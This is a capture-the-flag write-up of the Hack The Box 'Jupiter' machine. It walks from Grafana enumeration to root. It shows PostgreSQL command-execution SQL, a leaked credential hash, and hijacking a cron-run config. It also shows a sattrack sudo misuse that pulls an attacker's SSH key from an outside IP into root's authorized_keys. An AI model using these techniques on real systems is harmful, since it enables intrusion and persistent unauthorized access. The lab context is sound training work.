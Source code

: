 ```yaml
---
title: Jupiter Report
date: 2023-09-09 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, PostgreSQL, Python Scripting]

img_path: /assets/img/htb/writeups/jupiter
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.216/32 (Linux)

**TCP Nmap scan:** 65,535 ports

![](nmap_all_ports_TCP.png)

* **Open ports**:
	* **22/ssh**:
		* Banner grabbing
			* Version: OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
				* [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			* Codename: jammy [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			* CVEs Version: [https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:8.9p1](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:8.9p1)
		* Valid credentials: None
	
	 * **80/http**:
		* Banner grabbing
			![](http_banner_grabbing_nc.png)
			* Resolving to Local DNS server: http://jupiter.htb
				![](http_banner_grabbing_ww.png.png)
				* Firefox
					![](http_firefox_home_page.png)
				* Technologies
					* HttpServer: Nginx/1.18.0 (Ubuntu/Linux)
						* Version vulns: [https://www.cybersecurity-help.cz/vdb/nginx/nginx/1.18.0/](https://www.cybersecurity-help.cz/vdb/nginx/nginx/1.18.0/)
						* Stable version: 1.24.0 [https://nginx.org/en/download.html](https://nginx.org/en/download.html)
					* JQuery/3.3.1
						* Version vulns: [https://security.snyk.io/package/npm/jquery/3.3.1](https://security.snyk.io/package/npm/jquery/3.3.1)
						* Stable version: 3.7.0 (May 11, 2023)
			* Url Scrapping
				![](http_basic_url_scrapping_curl.png)
			* Subdomain enumeration
				![](subdomain_enumeration.png)
				* New subdomain: http://kiosk.jupiter.htb
					* Firefox (Moons and some tables)
					![](http_kiosk_subdomain_home_page.png)
					* Technologies
						* [Grafana v9.5.2](https://grafana.com/docs/grafana/v9.5/) (open source analytics & monitoring solution for every database)
							* Version vulns: None
							* Stable version: 10.1.1 [https://grafana.com/grafana/download](https://grafana.com/grafana/download)
							* **API**: [https://grafana.com/docs/grafana/latest/developers/http_api/](https://grafana.com/docs/grafana/latest/developers/http_api/)
						* Go 1.20.4
						* Angular 1.8.3
						* PostgreSQL 

## **Vulnerability Assesment**

* * *
* * *

* Burpsuite proxy (home)
	![](http_kiosk_api_query.png)
	* Exposed Grafana API query (postgres):
		* Version: select version() [PostgreSQL 14.8]
			* Credentials: grafana_viewer:SCRAM-SHA-256\$4096:K9IJE4h9f9+tr7u7AZL76w\==\$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
			* Current user: **grafana_viewer**
			* Permisions query: SELECT current_setting('is_superuser'); = on
				* **When can read wiles or execute commands**
				![](super_user_priv.png)
				+ Postgres roles: [https://www.postgresql.org/docs/current/role-attributes.html](https://www.postgresql.org/docs/current/role-attributes.html)
				+ Postgres pentesting: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-with-postgresql-languages](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-with-postgresql-languages)

## **Exploitation**

* * *
* * *

* PostgreSQLi
	* DROP TABLE IF EXISTS cmd_rce;
	* CREATE TABLE cmd_rce(cmd_out text);
	* COPY cmd_rce FROM PROGRAM 'id';
	* SELECT * FROM cmd_rce;
		![](postgrsql_poc.png)

## **Post-exploitation**

* * *
* * *

* System User Shell (postgress)
	* Enumeration
		* Process (pspy.sh)
			* Juno user cron job
			![](pspy_process.png)
			* Shadow simulation (/home/juno/shadow-simulation.sh)			
				![](shadow_simulation_mean.png)
				* [Shadow](https://shadow.github.io/docs/guide/design_2x.html) directly **executes real, unmodified application binaries natively in Linux as standard OS processes** (using `vfork()` and `execvpe()`): we call these processes executed by Shadow _managed processes_.
				* Example: (Basic File Transfer)
					![](shadow_simulation.png)
				* We have write access to **network-simulation.yml** (-rw-rw-rw- 1 juno juno 815 Mar  7  2023 /dev/shm/network-simulation.yml)
* Juno user
	* Enumeration
		* Process (jovian   /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb)
		* Juno group: science
			* Group permissions: drwxrwx--- 4 jovian **science** 4096 May  4 18:59 /opt/solar-flares
		* Jupyter Notebook is running on default port 8888
			* Access with Local Port Forwarding in SSH
				* Access token Enabled
			* Searchings recent logs  (**Token leaked**)
				![](token_logs.png)
			* Jovian JUpyter Notebookacces (Free Remote code execution)
* Jovian user
	* Enumeration
		* Binary execution policy ((ALL) NOPASSWD: /usr/local/bin/sattrack)
			* [Sattrack](https://github.com/arf20/arftracksat): Satellite tracking software for linux
			* Documentation options
				![](sattrack_docs.png)
				* tlesources:  A array of URLs to curl get into tleroot
				* tleroot: Location to get and load TLE files
				* tlefile: TLE filename to load from tleroot

## **Lateral movement**

* * *
* * *

* Pivot to **Juno user** (network-simulation.yml)
	![](juno_config_suid.png)
	![](juno_shell.png)
	* Add our id_rsa.pub to juno authorized keys nad log with ssh (Persistence)
* Pivot user Jovian (Jupyter notebook access)
	![](jupyter_notebook_rce.png)
	![](jovian_shell.png)
* Pivot to Root
	* Request our id_rsa.pub to root authorized_keys file
		*  tlesources:  http://10.10.15.5/id_rsa.pub
		* tleroot: /root/.ssh
		* tlefile: authorized_keys
		![](sattrack_conf.png)
		![](root.png)

## **Proof of concept**

* * *
* * *

* Postgres RCE script [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Jupiter)
	![](postres_shell.png)
* Juno RCE .yaml
	
	![](network_yml_poc.png)
	![](juno_rce_poc.png)
